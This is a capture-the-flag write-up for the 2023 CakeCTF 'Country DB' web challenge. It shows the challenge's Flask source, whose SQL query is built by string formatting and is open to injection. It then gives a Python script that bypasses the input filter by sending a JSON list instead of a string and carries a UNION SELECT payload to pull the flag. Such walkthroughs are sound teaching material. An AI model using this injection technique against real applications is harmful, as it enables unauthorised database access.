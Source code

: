 ```yaml
---
title: 2023 CakeCTF - Country DB
date: 2023-11-11 00:00:00 +0700
categories:
  - Write-ups
tags:
  - 2023_CakeCTF
  - Web Exploitation
  - SQL injection
---
```


## Overview

* 68 points / 246 solves
* author: ptr-yudai
* tag: warm-up

## Description

> Do you know which country code 'CA' and 'KE' are for?
> Search country codes [here](http://countrydb.2023.cakectf.com:8020/)!

### Attached

[country-db.zip](https://github.com/nqthangcs/CTF-writeups/blob/main/2023/2023_CakeCTF/attached/country_db_fc1912477a433a93f7d75a9b80389582.zip)


This is ```app.py``` file
```py
#!/usr/bin/env python3
import flask
import sqlite3

app = flask.Flask(__name__)

def db_search(code):
    with sqlite3.connect('database.db') as conn:
        cur = conn.cursor()
        cur.execute(f"SELECT name FROM country WHERE code=UPPER('{code}')")
        found = cur.fetchone()
    return None if found is None else found[0]

@app.route('/')
def index():
    return flask.render_template("index.html")

@app.route('/api/search', methods=['POST'])
def api_search():
    req = flask.request.get_json()
    if 'code' not in req:
        flask.abort(400, "Empty country code")

    code = req['code']
    if len(code) != 2 or "'" in code:
        flask.abort(400, "Invalid country code")

    name = db_search(code)
    if name is None:
        flask.abort(404, "No such country")

    return {'name': name}

if __name__ == '__main__':
    app.run(debug=True)

```

## Analyzation

Check ```init_db.py``` file, it is not hard to find out this is sqli.

The query is so simple

```sql
SELECT name FROM country WHERE code=UPPER('AF') UNION SELECT FLAG FROM FLAG -- trash
```

The main problem of this challenge is to bypass the filters
```py
req = flask.request.get_json()
if 'code' not in req:
    flask.abort(400, "Empty country code")

code = req['code']
if len(code) != 2 or "'" in code:
    flask.abort(400, "Invalid country code")
```

So the string's length must be 2.

Hmmm, does it have to be string??

## Vulnerability

It does not check type of ```code```, so it does not need to be a string. Another data type can be used instead.

After looking around, I find out ```list``` work!

## Solution

```py
import requests

# URL = "http://localhost:8020/api/search"
URL = "http://countrydb.2023.cakectf.com:8020/api/search"

data = {"code": ["') UNION SELECT FLAG FROM FLAG --", "# "]}

response = requests.post(URL, json=data)

print(response.text)
```

*I use empty string for the first query to prevent the result of that query stay up before flag*

The flag is
```
CakeCTF{b3_c4refUl_wh3n_y0U_u5e_JS0N_1nPut}
```

* Similar challenge: "upside-down cake" of TSG CTF (2023)*